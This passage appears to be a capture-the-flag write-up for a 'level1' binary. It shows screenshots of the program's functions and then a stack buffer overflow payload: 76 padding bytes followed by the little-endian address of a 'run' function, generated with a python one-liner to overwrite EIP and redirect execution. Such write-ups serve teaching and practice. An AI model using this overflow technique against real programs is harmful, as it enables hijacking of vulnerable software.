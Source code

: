 ![all function](./resources/level1_functions.png "functions")

![main function](./resources/main_function.png "main function")

![run function](./resources/run_function.png "run function")

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA + adress of the run function so we can overflow the value of the EIP with adress of our function so it gets executed unstead of exiting the main function

we have litle indian addressing so we should reverse our input the adress of the run function is : 0x08048444

using python -c "print('A' * 76 + '\x44\x84\x04\x08')"
```